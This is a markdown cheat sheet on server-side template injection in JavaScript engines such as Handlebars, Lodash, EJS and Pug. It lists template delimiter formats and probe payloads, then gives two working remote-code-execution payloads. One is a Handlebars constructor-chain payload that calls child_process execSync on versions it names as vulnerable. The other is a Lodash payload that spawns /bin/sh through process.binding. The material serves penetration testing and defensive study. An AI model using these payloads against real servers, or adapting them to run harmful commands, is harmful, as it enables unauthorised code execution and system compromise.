 # Server Side Template Injection - JavaScript

> Server-Side Template Injection (SSTI)  occurs when an attacker can inject malicious code into a server-side template, causing the server to execute arbitrary commands. In the context of JavaScript, SSTI vulnerabilities can arise when using server-side templating engines like Handlebars, EJS, or Pug, where user input is integrated into templates without adequate sanitization.

## Summary

- [Templating Libraries](#templating-libraries)
- [Handlebars](#handlebars)
    - [Handlebars - Basic Injection](#handlebars---basic-injection)
    - [Handlebars - Command Execution](#handlebars---command-execution)
- [Lodash](#lodash)
    - [Lodash - Basic Injection](#lodash---basic-injection)
    - [Lodash - Command Execution](#lodash---command-execution)
- [References](#references)

## Templating Libraries

| Template Name | Payload Format |
| ------------ | --------- |
| DotJS        | `{{= }}`  |
| DustJS       | `{}`      |
| EJS          | `<% %>`   |
| HandlebarsJS | `{{ }}`   |
| HoganJS      | `{{ }}`   |
| Lodash       | `{{= }}`  |
| MustacheJS   | `{{ }}`   |
| NunjucksJS   | `{{ }}`   |
| PugJS        | `#{}`     |
| TwigJS       | `{{ }}`   |
| UnderscoreJS | `<% %>`   |
| VelocityJS   | `#=set($X="")$X` |
| VueJS        | `{{ }}`   |

## Handlebars

[Official website](https://handlebarsjs.com/)
> Handlebars compiles templates into JavaScript functions.

### Handlebars - Basic Injection

```js
{{this}}
{{self}}
```

### Handlebars - Command Execution

This payload only work in handlebars versions, fixed in [GHSA-q42p-pg8m-cqh6](https://github.com/advisories/GHSA-q42p-pg8m-cqh6):

- `>= 4.1.0`, `< 4.1.2`
- `>= 4.0.0`, `< 4.0.14`
- `< 3.0.7`

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

---

## Lodash

[Official website](https://lodash.com/docs/4.17.15)
> A modern JavaScript utility library delivering modularity, performance & extras.

### Lodash - Basic Injection

How to create a template:

```javascript
const _ = require('lodash');
string = "{{= username}}"
const options = {
  evaluate: /\{\{(.+?)\}\}/g,
  interpolate: /\{\{=(.+?)\}\}/g,
  escape: /\{\{-(.+?)\}\}/g,
};

_.template(string, options);
```

- **string:** The template string.
- **options.interpolate:** It is a regular expression that specifies the HTML *interpolate* delimiter.
- **options.evaluate:** It is a regular expression that specifies the HTML *evaluate* delimiter.
- **options.escape:** It is a regular expression that specifies the HTML *escape* delimiter.

For the purpose of RCE, the delimiter of templates is determined by the **options.evaluate** parameter.

```javascript
{{= _.VERSION}}
${= _.VERSION}
<%= _.VERSION %>


{{= _.templateSettings.evaluate }}
${= _.VERSION}
<%= _.VERSION %>
```

### Lodash - Command Execution

```js
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","id;ls"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```

## References

- [Exploiting Less.js to Achieve RCE - Jeremy Buis - July 1, 2021](https://web.archive.org/web/20210706135910/https://www.softwaresecured.com/exploiting-less-js/)
- [Handlebars template injection and RCE in a Shopify app - Mahmoud Gamal - April 4, 2019](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)
